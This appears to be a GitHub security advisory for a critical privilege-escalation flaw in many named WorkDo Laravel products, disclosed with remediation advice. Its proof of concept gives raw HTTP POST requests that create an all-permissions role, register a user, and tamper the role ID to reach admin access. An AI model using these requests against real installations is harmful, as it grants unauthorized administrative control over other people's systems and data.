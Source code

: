 # 🔓 WorkDo Products - Privilege Escalation via Role Manipulation

📌 **Product Information**  
**Platform**: Laravel  
**Affected Feature**: Role & User Creation  
**Tested Vulnerability**: Privilege Escalation via `role` ID Tampering  
**CVE**: Not Assigned  
**Severity**: Critical (Unauthenticated to Admin via Account Setup)  
**CWE ID**: CWE-269  
**CWE Name**: Improper Privilege Management  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 13, 2025  
**Researcher**: yucaerin  
**Vendor**: [WorkDo](https://codecanyon.net/user/workdo)

**Vulnerable Products**:
- [TicketGo - Support Ticket System](https://codecanyon.net/item/ticketgo-support-ticket-system/23051838)
- [Taskly - Project Management Tool](https://codecanyon.net/item/taskly-project-management-tool/24264721)
- [Taskly SaaS - Project Management Tool](https://codecanyon.net/item/taskly-saas-project-management-tool/24490506)
- [AccountGo - Accounting and Billing Tool](https://codecanyon.net/item/accountgo-accounting-and-billing-tool/25725131)
- [AccountGo SaaS - Accounting and Billing Tool](https://codecanyon.net/item/accountgo-saas-accounting-and-billing-tool/25733019)
- [HRMGo - HRM and Payroll Tool](https://codecanyon.net/item/hrmgo-hrm-and-payroll-tool/25982864)
- [HRMGo SaaS - HRM and Payroll Tool](https://codecanyon.net/item/hrmgo-saas-hrm-and-payroll-tool/25982934)
- [StoreGo - SaaS Online Store Builder](https://codecanyon.net/item/storego-saas-online-store-builder/31116337)
- [WhatsStore - SaaS Online WhatsApp Store Builder](https://codecanyon.net/item/whatsstore-saas-online-whatsapp-store-builder/32111583)
- [ERPGo SaaS - All-in-One Business ERP](https://codecanyon.net/item/erpgo-saas-all-in-one-business-erp-with-project-account-hrm-crm-pos/33263426)
- [ERPGo - All-in-One Business ERP](https://codecanyon.net/item/erpgo-all-in-one-business-erp-with-project-account-hrm-crm-pos/33263435)
- [vCardGo SaaS - Digital Business Card Builder](https://codecanyon.net/item/vcardgo-saas-digital-business-card-builder/34885397)
- [EcommerceGo SaaS - Ecommerce Store](https://codecanyon.net/item/ecommercego-saas-ecommerce-store-with-multi-theme-and-multi-store/45984492)
- [AdvocateGo SaaS - Legal Practice Management](https://codecanyon.net/item/advocatego-saas-legal-practice-management/46105956)
- [BookingGo SaaS - Multi Business Appointment Booking](https://codecanyon.net/item/bookinggo-saas-multi-business-appointment-booking-and-scheduling/50585829)

---

⚠️ **Summary of the Vulnerability**  
In many WorkDo products, user role creation and assignment lack proper access controls. A user can escalate privileges by:

1. Creating a role with full admin permissions via:
```
POST /roles
```

2. Creating a user account with the crafted role (e.g., `role=4`) via:
```
POST /users
```

3. Manually modifying the `role` ID from a basic role (e.g., 4) to `role=1` (typically admin).

## 🧪 Proof of Concept (PoC)  

### ➤ Step 1 - Create Role with Admin Permissions
```http
POST /roles
Content-Type: application/x-www-form-urlencoded

_token=[CSRF_TOKEN]&name=testadminrole&permissions[]=1&permissions[]=2&...&permissions[]=48
```

### ➤ Step 2 - Register a New User with the Custom Role
```http
POST /users
Content-Type: application/x-www-form-urlencoded

_token=[CSRF_TOKEN]&name=testuser&email=test@example.com&password=123123123&role=4&is_login=on
```

### ➤ Step 3 - Modify Role Assignment
Change `role=4` to `role=1` manually or via direct POST request to escalate privileges.

✅ **Indicators of Success**:
- Redirect to admin dashboard
- Admin-only menus become accessible
- Access to system settings and user management

## 🔍 Where’s the Flaw?
- No server-side verification of who is allowed to create roles or assign them.
- Client input on `role` field is trusted blindly.
- Missing RBAC enforcement on critical endpoints.

## 🔐 Recommendation
- Restrict role creation and modification to verified admin users.
- Validate user permissions server-side before allowing `role` assignment.
- Implement audit logs for role-related actions.

## ⚙️ Optional Automation Features
An automated exploit could:
- Register user
- Retrieve CSRF token
- Modify role via crafted POST
- Confirm privilege escalation

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** target systems without explicit permission. Unauthorized exploitation is illegal.
